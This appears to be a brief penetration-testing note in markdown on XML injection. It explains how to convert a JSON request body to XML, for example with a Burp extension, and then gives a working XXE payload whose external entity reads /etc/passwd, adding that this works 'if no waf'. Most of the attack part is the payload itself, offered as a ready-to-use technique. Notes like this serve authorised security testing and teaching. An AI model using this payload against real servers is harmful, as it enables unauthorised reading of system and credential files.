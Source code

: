 # XMLI METHOD

Check the Contenttype that is allowed.
	If application/json change to application/xml //or other option

Change Post data from json to xml (Conten-Type Converter Burp Extension)

## Simple Example
```
{
  "firstname":"Mike",
  "lastname":"hill",
  "Uid":"123"
 }
```
TO
```
<!--?xml version="1.0"?-->
<userinfo>
  <firstname>
  Mike
  </firstname>
  <lastname>
  hill
  </lastname>
  <Uid>
  123
  </Uid>
</userinfo>
```

If works try different apporache/payloads
e.g.
```
<!--?xml version="1.0"?-->
<!DOCTYPE replace [<!ENTITY asd SYSTEM "file:///etc/passwd"> ]>
<userinfo>
  <firstname>
  Mike
  </firstname>
  <lastname>
  hill
  </lastname>
  <Uid>
  123
  </Uid>
</userinfo>
```
Read the etc/passwd file if no waf
